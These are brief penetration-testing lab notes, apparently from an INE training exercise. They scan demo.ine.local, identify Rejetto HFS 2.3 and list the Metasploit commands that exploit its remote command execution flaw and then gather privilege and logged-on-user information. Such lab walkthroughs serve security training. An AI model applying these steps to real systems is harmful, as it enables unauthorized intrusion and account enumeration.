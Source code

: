 `nmap -sC -sV demo.ine.local`
80/tcp    open  http               HttpFileServer httpd 2.3

`searchsploit hfs`
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (2) 

`msfconsole`
`search hfs`
`use 0`
`set RHOSTS demo.ine.local`


`background` 
set session 1 to this session and return to msf


`use post/windows/gather/win_privs`
`set SESSION 1`
`run`
check สิทธิ

`use post/windows/gather/enum_logged_on_users` 
get log
etc.

